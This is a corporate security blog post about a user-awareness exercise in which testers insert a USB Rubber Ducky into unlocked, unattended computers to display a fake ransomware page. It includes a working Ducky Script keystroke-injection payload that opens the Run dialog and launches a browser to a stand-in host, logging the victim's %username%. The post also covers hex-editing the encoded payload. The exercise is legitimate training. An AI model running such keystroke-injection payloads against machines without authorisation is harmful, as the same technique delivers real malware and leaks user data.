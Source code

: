 ```yaml
---
layout: post
title: "Unattended, unlocked, unprotected terminals - User security training with USB Rubber Ducky"
date: 2018-08-21
comments: false
author: Rodney Beede
authorIsRacker: true
published: true
categories:
  - Security
---
```


As part of our user security awareness training, we perform tests of our
personnel in the work environment.  One training exercise involved testing for
unattended computers by inserting a USB device that would display a ransomware
screen.

<!--more-->

## What is USB Rubber Ducky?

USB Rubber Ducky is a product made by a company called Hak5.  You can find
information about it at:

* [Hak5's hackshop.com](https://hakshop.com/products/usb-rubber-ducky-deluxe)
* [Hak5's GitHub Repository](https://github.com/hak5darren/USB-Rubber-Ducky)

To you, it looks like a USB thumb drive, but it actually emulates a USB HID
keyboard.  After it's plugged in, a payload programmed into the device sends
keyboard commands to the computer.

This allows a security tester to quickly run commands on an unprotected computer
without having to sit down at the computer and type.

## Our ransomware exercise

We walked around our location looking for computers that were unattended and
had not been locked (left at the desktop screen).  If we discovered an unattended
computer, we inserted the USB Rubber Ducky into a USB port which delivered our
payload.

### What happens?

The payload sends keystroke commands that:

1. Open up a web browser
1. Place the web browser full screen
1. Open a second web browser on the second monitor
   * Also in full-screen mode
1. Navigate to a fake ransomware page

The fake ransomware page includes text that indicates it is a security test and
provides links to security training for the user.

## Payload code and tools

The tool **duckencoder_2.6.4.jar** from the
[USB Rubber Ducky GitHub site](https://github.com/hak5darren/USB-Rubber-Ducky)
encodes the payload command script for the USB Rubber Ducky hardware.

One limitation is that the encoder does not have built-in support for the key
combination of **win + CTRL + desktop** (open a new virtual desktop).  I
overcame this limitation by manually editing the compiled **inject.bin** with a
hex editor to change the keycode bytes from _07 05_ to _07 09_ (hexadecimal).

Although I have submitted code enhancements to the product's GitHub project,
the maintainers have not updated it in quite some time (Dec. 7, 2016).  Ideally,
the encoder would have support for more key combinations, but most desired
actions can be done without using a hex editor.  I was successful in getting
**STRING_DELAY** added to the official code base, and this script command is
very helpful for writing shorter payloads.

### Code

```
REM Author:  Rodney Beede of GES-TVA
REM Created: 2018-05-31


DEFAULT_DELAY 100

REM startup delay
DELAY 100

REM Create a new desktop is  win + CTRL + desktop
REM ducky script doesn't support this so make it yourself
REM by ORing the MODIFIER_KEY values together! and HxD
REM https://github.com/hak5darren/USB-Rubber-Ducky/blob/master/Encoder/resources/keyboard.properties

REM CTRL-ALT d MAKES 07 05
REM CTRL-ALT === 0x05
REM d === 0x07   (these are keyboard codes, not ascii)
REM win+ctrl+d MAKES 07 09
CTRL-ALT d



REM run dialog
GUI r

REM the double quotes are important
STRING_DELAY 10 "c:\Program Files\internet explorer\iexplore.exe" -k https://fake-ransomeware-page.example.com/log/%username%
ENTER


REM open a second one and put on the second monitor

GUI r
STRING_DELAY 10 "c:\Program Files\internet explorer\iexplore.exe" -k https://fake-ransomeware-page.example.com/log/%username%
ENTER



REM win+SHIFT+right arrow to move window to other desktop
REM HxD edit so CTRL-ALT (05) becomes WIN+SHIFT value:  0A
REM 4F 05 ===>  4F 0A
CTRL-ALT RIGHT
```


## Summary

We chose the ransomware screen shock factor as a way to educate users of the
security risk to company data.  It creates more ownership (versus just an email
note from security) by demonstrating real-world impact of what could happen
from a malicious actor.

![Ransomware Screen](ransomware.png)

Use the Feedback tab to make any comments or ask questions.
